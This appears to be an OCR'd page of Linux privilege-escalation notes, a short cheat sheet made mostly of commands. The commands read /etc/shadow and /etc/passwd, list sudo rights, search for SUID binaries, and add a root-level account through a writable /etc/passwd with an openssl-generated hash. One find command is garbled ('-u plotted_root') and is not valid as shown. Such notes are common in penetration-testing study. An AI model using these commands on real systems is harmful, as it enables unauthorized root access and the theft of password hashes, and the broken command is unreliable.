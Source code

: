 users:
cat /etc/passwd;  ls -lah /etc/passwd

shells:
cat /etc/shells; ls -lah /etc/shells

crontabs:
cat /etc/crontab; ls -lah /etc/crontab

shadow
cat /etc/shadow; ls -lah /etc/shadow




What can user run as root?

sudo -l






Finding and Exploiting SUID Files

find / -perm -u=s -type f 2>/dev/null


find / -type f -u plotted_root 2>/dev/null



Exploiting a writable /etc/passwd

 ```
	test:x:0:0:root:/root:/bin/bash
```

as divided by colon 

    Username: It is used when user logs in. It should be between 1 and 32 characters in length.
    
	Password: An x character indicates that encrypted password is stored in /etc/shadow file. Please note that you need to use the passwd command to compute the hash of a password typed at the CLI or to store/update the hash of the password in /etc/shadow file, in this case, the password hash is stored as an "x".
    User ID (UID): Each user must be assigned a user ID (UID). UID 0 (zero) is reserved for root and UIDs 1-99 are reserved for other predefined accounts. Further UID 100-999 are reserved by system for administrative and system accounts/groups.
    
	Group ID (GID): The primary group ID (stored in /etc/group file)
    
	User ID Info: The comment field. It allow you to add extra information about the users such as user’s full name, phone number etc. This field use by finger command.
    
	Home directory: The absolute path to the directory the user will be in when they log in. If this directory does not exists then users directory becomes /
    
	Command/shell: The absolute path of a command or shell (/bin/bash). Typically, this is a shell. Please note that it does not have to be a shell.


```
openssl passwd -1 -salt [salt] [password]
```
